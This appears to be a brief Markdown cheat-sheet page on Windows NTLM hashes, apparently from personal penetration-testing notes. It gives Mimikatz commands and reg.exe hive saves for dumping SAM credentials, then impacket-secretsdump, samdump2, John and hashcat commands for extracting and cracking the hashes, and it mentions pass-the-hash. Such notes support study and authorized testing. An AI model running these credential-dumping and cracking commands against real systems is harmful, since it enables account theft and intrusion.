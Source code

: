 ```yaml
---
title: NTLM
parent: Operating Systems
layout: default
nav_order: 1
---
```


If cannot crack, maybe can consider pass the hash.

## Mimikatz
1. To obtain this from running system, need to have admin rights and run mimikatz.\
   `privilege::debug`\
   `token::elevate`\
   `lsadump::sam`
2. `john --wordlist=/usr/share/seclists/rockyou.txt hash.txt --format=NT`
   

## Registry (REG SAVE)
1. On target, run:\
   `reg.exe save hklm\sam sam.save`\
   `reg.exe save hklm\security security.save`\
   `reg.exe save hklm\system system.save`
2. Then run:\
   `impacket-secretsdump -sam sam.save -security security.save -system system.save LOCAL`
3. If no security.save use (try not to):\
   `samdump2 system.save sam.save`
4. The NT hash is 4th item. Can also use John:\
   `john --wordlist=/usr/share/seclists/rockyou.txt hash.txt --format=NT`
5. Hashcat:\
   `hashcat -m 1000 -a 0 hash.txt /usr/share/seclists/rockyou.txt`